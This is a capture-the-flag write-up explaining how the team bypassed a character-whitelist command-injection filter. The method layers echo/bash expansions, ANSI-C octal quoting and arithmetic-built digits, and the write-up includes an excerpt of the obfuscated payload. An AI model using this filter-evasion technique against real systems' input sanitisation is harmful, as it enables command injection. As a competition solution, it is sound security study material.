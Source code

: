 # echoechoechoecho, 216p, 18 solves

> Echo echo echo echo, good luck
> 
> nc 35.246.181.187 1337

In this task we are able to input commands to be executed on server. The catch is there
is a strict whitelist of allowed characters. The relevant code is:

```python
    if re.search(r'[^();+$\\= \']', payload.replace("echo", "")):
        bye("ERROR invalid characters")

    # real echolords probably wont need more special characters than this
    if payload.count("+") > 1 or \
            payload.count("'") > 1 or \
            payload.count(")") > 1 or \
            payload.count("(") > 1 or \
            payload.count("=") > 2 or \
            payload.count(";") > 3 or \
            payload.count(" ") > 30:
        bye("ERROR Too many special chars.")

```

There is also an interesting snippet near the bottom:

```python
payload += "|bash"*count
```

In other words, we can execute any string consisting of rather small number of
`^();+$\= '` characters and `echo` strings and pipe it to bash up to ten times.

The most important thing to do is to increase number of limited characters (like brackets),
since it's clearly impossible to encode useful commands in so little space. Let's say
we want to have more than one `(` character. We can write:

```bash
echo=\(; echo $echo$echo$echo$echo
```

Which will print four left brackets after one bash pipe. We can encode the other limited characters in a similar
fashion (remembering to backslash-escape the inner string; thankfully backslashes are unlimited). Now that
we can do that, we should think of a way to encode arbitrary characters. It turns out there is a `$'abcd'` syntax
in bash, enabling 
[ANSI-C quoting](https://www.gnu.org/software/bash/manual/html_node/ANSI_002dC-Quoting.html#ANSI_002dC-Quoting).
Of the features, the one useful for us are escape sequences: `$'\154\163'` will expand to `ls` after passing
through a layer of bash. We have all the characters needed except digits. We can make digits using bash
arithmetics though: `$(($$==$$))` is `1` and we can add up to nine ones to get any digit.

We wrote an automatic encoder of arbitrary commands, consisting of eight layers of encoding. We were able
to execute simple commands, like `ls -al` and found unreadable `flag` file and executable `getflag` binary.
It asked us to implement an arithmetic captcha, which turned out to be the same as 
[here](https://hack.more.systems/writeup/2017/12/30/34c3ctf-minbashmaxfun/). We could copy the solver snippet
from there (we had to use temporary files to remember captcha while the binary was still running, so it
was not trivial).

For some reason the server seemed to break after receiving too much data (though
it was pretty hard to pinpoint the exact spot). The command admittedly grew rather large,
owing mostly to backslash exponential escaping. We optimized the encoding a bit (such as remembering 
single `1` in another `$echo` variable in digit encoding stage) and eventually got the full command to pass.

For fun, here's the first 1000 characters (of over 100kB) of final payload:

```bash
echo=\=; echo echo$echo\\\;\; echo echo$echo\\\\+\$echo echo echo$echo\\\\\\\\\\\\\\\)\\\\\$echo echo echo$echo\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\(\\\\\\\\\\\\\$echo echo echo$echo\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\'\\\\\\\\\\\\\\\\\\\\\\\\\\\\\$echo echo echo$echo\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\$\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\$echo\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\$echo\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\$\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\$$echo$echo\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\$\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\$\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\$echo\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\$echo\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\$echo echo echo \\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\
```

The final encoder code is in `encoder.py` file.
